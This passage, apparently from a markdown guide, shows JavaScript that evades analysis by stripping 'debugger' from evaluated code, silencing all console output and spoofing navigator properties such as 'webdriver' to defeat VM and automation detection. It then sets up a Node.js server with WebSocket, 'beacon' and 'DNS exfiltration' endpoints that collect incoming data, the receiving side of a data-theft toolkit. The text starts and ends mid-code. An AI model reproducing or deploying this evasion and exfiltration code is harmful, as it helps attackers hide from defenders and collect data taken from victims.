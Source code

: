 ```javascript
      return originalEval(code.replace(/debugger/g, ''));
    };
    
    // Override console methods
    const noop = () => {};
    console.log = noop;
    console.info = noop;
    console.warn = noop;
    console.error = noop;
    console.debug = noop;
  },
  
  // Detect and bypass common VM detection
  bypassVMDetection: () => {
    // Override common VM detection methods
    Object.defineProperty(navigator, 'hardwareConcurrency', {
      get: () => 8
    });
    
    Object.defineProperty(navigator, 'deviceMemory', {
      get: () => 8
    });
    
    Object.defineProperty(navigator, 'webdriver', {
      get: () => undefined
    });
  }
};
```

## Server Setup



### Basic Node.js Server

```javascript
const express = require('express');
const app = express();
const port = 3000;

app.use(express.json());

// WebSocket endpoint
const WebSocket = require('ws');
const wss = new WebSocket.Server({ port: 8080 });

wss.on('connection', function connection(ws) {
  ws.on('message', function incoming(data) {
    console.log('Received:', data.toString());
    // Store or process the data
  });
});

// Beacon endpoint
app.get('/beacon', (req, res) => {
  console.log('Beacon data:', req.query);
  res.status(200).send('OK');
});

// DNS exfiltration endpoint
app.get('/dns', (req, res) => {
  console.log('DNS data:', req.hostname);
  res.status(200).send('OK');
```